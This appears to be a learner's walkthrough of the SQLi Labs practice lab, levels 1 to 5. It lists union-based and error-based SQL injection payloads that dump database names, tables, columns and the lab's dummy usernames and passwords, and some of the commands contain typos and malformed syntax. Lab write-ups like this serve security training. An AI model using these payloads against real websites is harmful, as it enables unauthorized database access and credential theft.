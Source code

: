 #**SQLi Labs**

First we have to set up sqli labs
For that we can use the following commands
install apache2 webserver by > sudo apt install apache2
install mysql by > sudo apt-get install mysql-srver
install php7
git clone the repository of the lab and start all the services.

#LESS1
The website says,Please input the ID as parameter with numeric value.
So we can input ?id=1 or 2,3,4,5.....
when we put ' we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by -- - or other comments in sql language.
We can dump contents

 payloads to dump
 We can get version of the server by using /?id=-1' union select 1,version(),3--+
 We can get databasename of the server by using /?id=-1' union select 1,database(),3--+  databasename = security
 Going to the terminal and going to mysql. If we type show databases; it shows databases
 Then we can security also. We can find more details using "use security we can go into the database.
 Using show tables; we can see the tables. For looking into the tables desc emails; and so on...
 
#LESS2
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - doesn't work.
So we put ' before the 1 and change it as ?id='1' as payload.
Now we can comment it ?id='1' -- - 
Now we can dump contents using the payloads.

#payloads to dump
to find column_name ?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
We have more payloads that can we do and get contents of database

#LESS3
The website says,Please input the ID as parameter with numeric value.
This time when we input use ?id=1'-- - nor ?id='1'-- - doesn't work.
So we put ) before the ' and change it as ?id=1)' as payload.
No we can comment it ?id=1)'-- -
Now we can dump contents using payloads

#payloads to dump
to find data /?id=-1') union select 1,group_concat(username),3 from users
We have more payloads that can we do and get contents of database

#LESS4
The website says,Please input the ID as parameter with numeric value.
We have to use ') ' as payload 
Now can comment it using ?id=1' ")-- -
Now we can dump contents using payloads

#payloads to dump 
?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users
We have more payloads that can we do and get contents of database.

#LESS5
In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use rand(),floor(),count() to get error

#payloads to dump
this will get database /?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get table names /?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+
to get columns /?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+

#contents of database
1.databasename = security
2.tables = emails,referers,uagents,users
3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
